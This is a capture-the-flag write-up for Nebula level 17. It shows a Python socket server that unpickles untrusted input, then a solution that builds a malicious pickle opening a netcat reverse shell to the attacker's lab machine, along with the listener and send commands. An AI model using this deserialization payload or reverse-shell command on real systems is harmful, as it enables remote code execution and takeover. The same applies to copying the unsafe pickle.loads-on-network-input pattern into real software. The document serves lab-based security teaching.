 # Nebula - Lvel 17

### About ###

>There is a python script listening on port 10007 that contains a vulnerability.
>
>To do this level, log in as the level17 account with the password level17 . Files for this level can be found in /home/flag17.

### Source code ###

```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
    clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
    server(clnt)
    exit(1)
```

### Solution ###

This challenge is based on the misuse of the Python library `pickle` which can be used to execute malicious code.

To solve it, a reverse shell script is pickled with the `pickle` library and sent to the listening server from another machine (in this example the machine `kali` with the ip address 172.16.204.134, `nebula` has the ip address 172.16.204.135).

```python
import cPickle
import subprocess

class RemoteShell(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/nc.traditional', '-e', '/bin/bash', '172.16.204.134', '10008',),))

print cPickle.dumps(RemoteShell())
```

Then, on another shell on `kali`, a listening server for the remote shell is started.

```
root@kali:~# nc -l -p 10008
```

The pickled object is sent to the machine `nebula`.

```
root@kali:~/Nebula# python flag17.py | nc 172.16.204.135 10007
Accepted connection from 172.16.204.134:59304
```

`getflag` can now be executed successfully.

```
root@kali:~# nc -l -p 10008
getflag
You have successfully executed getflag on a target account
```

